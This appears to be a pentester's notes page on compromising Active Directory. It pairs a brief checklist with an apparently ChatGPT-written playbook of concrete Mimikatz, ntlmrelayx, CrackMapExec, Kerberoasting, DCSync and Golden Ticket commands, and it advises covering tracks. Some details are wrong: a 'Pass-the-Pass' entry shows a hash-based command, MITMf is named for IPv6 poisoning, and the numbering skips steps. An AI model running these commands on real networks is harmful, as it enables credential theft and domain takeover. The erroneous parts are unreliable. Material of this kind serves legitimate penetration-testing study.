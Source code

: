 Based on my experience:
1. ENUMERATE (e.g. nmap, navigate to any webapps, OSINT, BloodHound, PowerView, etc...)
2. Start mitm6 OR Responder
3. Crack hash/pass attacks(crackmapexec) to gain a shell. **RESPRAY hashes & passwords with CME**
	1. secretsdump
	2. Continuously enumerate user accounts for pivoting/lateral movement
4. Kerberoasting / Mimikatz (must run as admin) / Token Impersonation
	1. Dump NTDS.dit
	2. Golden Tickets
7. Try RDP if thats open
8. Go back to step 1 and repeat













from ChatGPT

### 1. Initial Access and Reconnaissance

#### LLMNR/NBT-NS Poisoning

- **Tools**: Responder, Inveigh
- **Description**: Poison LLMNR and NBT-NS requests to capture NTLMv2 hashes.
- **Execution**:
    - Run Responder to capture hashes.
    - Crack hashes offline using tools like Hashcat or John the Ripper.

#### Network Scanning

- **Tools**: Nmap, Netdiscover
- **Description**: Identify live hosts and open ports.
- **Execution**:
    - Use Nmap to scan the network (`nmap -sP <network_range>`).
    - Identify services running on live hosts (`nmap -sV <ip_address>`).

### 2. Credential Theft and Lateral Movement

#### SMB Relay

- **Tools**: Responder, NTLMRelayX
- **Description**: Relay captured SMB authentication attempts to other network services.
- **Execution**:
    - Set up Responder to capture NTLM hashes.
    - Use NTLMRelayX to relay the captured hashes (`ntlmrelayx.py -tf targets.txt -smb2support`).

#### IPv6 Attacks

- **Tools**: MITMf, Responder
- **Description**: Exploit IPv6 to capture credentials.
- **Execution**:
    - Enable IPv6 poisoning in Responder.
    - Capture and relay hashes using MITMf (`mitmf --arp --spoof --gateway <gateway_ip> --targets <target_ip>`).

#### Kerberoasting

- **Tools**: Rubeus, GetUserSPNs.py
- **Description**: Extract service account hashes from Kerberos tickets.
- **Execution**:
    - Use GetUserSPNs.py to list SPNs and extract TGS tickets (`GetUserSPNs.py -request`).
    - Crack the tickets offline using Hashcat (`hashcat -m 13100 <hash_file>`).

### 3. Persistence and Privilege Escalation

#### Pass-the-Hash

- **Tools**: Mimikatz, CrackMapExec
- **Description**: Use captured NTLM hashes to authenticate.
- **Execution**:
    - Extract hashes using Mimikatz (`mimikatz # sekurlsa::logonpasswords`).
    - Authenticate with CrackMapExec (`cme smb <ip> -u <user> -H <hash>`).

#### Pass-the-Pass

- **Tools**: Mimikatz
- **Description**: Use plaintext passwords to authenticate.
- **Execution**:
    - Use Mimikatz to pass plaintext passwords (`mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>`).

#### Token Impersonation

- **Tools**: Mimikatz
- **Description**: Impersonate tokens to escalate privileges.
- **Execution**:
    - Extract tokens using Mimikatz (`mimikatz # token::elevate`).

#### LNK File Attacks

- **Tools**: Social Engineering Toolkit (SET)
- **Description**: Create malicious LNK files to execute code.
- **Execution**:
    - Use SET to generate LNK payloads and distribute them.

### 4. Domain Dominance

#### GPP Attacks

- **Tools**: gpp-decrypt, PowerSploit
- **Description**: Decrypt passwords stored in Group Policy Preferences (GPP).
- **Execution**:
    - Extract and decrypt passwords using gpp-decrypt (`gpp-decrypt <cpassword>`).
    - Use PowerSploit to automate GPP password extraction.

#### Mimikatz for Credential Dumping

- **Tools**: Mimikatz
- **Description**: Extract plaintext passwords, hashes, and Kerberos tickets.
- **Execution**:
    - Run Mimikatz to dump credentials (`mimikatz # sekurlsa::logonpasswords`).

#### Pivoting

- **Tools**: ProxyChains, SSH Tunneling
- **Description**: Use compromised machines as a pivot to reach other network segments.
- **Execution**:
    - Set up SSH tunneling (`ssh -L <local_port>:<remote_ip>:<remote_port> <user>@<gateway_ip>`).
    - Configure ProxyChains to use the tunnel (`proxychains nmap -sT <target_ip>`).

### 5. Gaining Domain Controller Access

#### DCSync Attack

- **Tools**: Mimikatz
- **Description**: Simulate the behavior of a domain controller to extract credentials.
- **Execution**:
    - Use Mimikatz to perform a DCSync attack (`mimikatz # lsadump::dcsync /user:<username>`).

#### Golden Ticket Attack

- **Tools**: Mimikatz
- **Description**: Create a forged Kerberos ticket to gain persistent access.
- **Execution**:
    - Extract the KRBTGT hash using Mimikatz (`mimikatz # lsadump::lsa /inject /name:krbtgt`).
    - Create a Golden Ticket (`mimikatz # kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>`).

### Summary

1. **Initial Access**: LLMNR/NBT-NS Poisoning, Network Scanning
2. **Credential Theft and Lateral Movement**: SMB Relay, IPv6 Attacks, Kerberoasting
3. **Persistence and Privilege Escalation**: Pass-the-Hash, Pass-the-Pass, Token Impersonation, LNK File Attacks
4. **Domain Dominance**: GPP Attacks, Mimikatz for Credential Dumping, Pivoting
5. **Gaining Domain Controller Access**: DCSync Attack, Golden Ticket Attack

### Important Considerations

- **Stealth**: Use tools and techniques that minimize detection.
- **Logs and Forensics**: Be aware of logging and forensics to cover your tracks.
- **Rules of Engagement**: Always operate within the agreed-upon scope and rules of engagement for the penetration test.
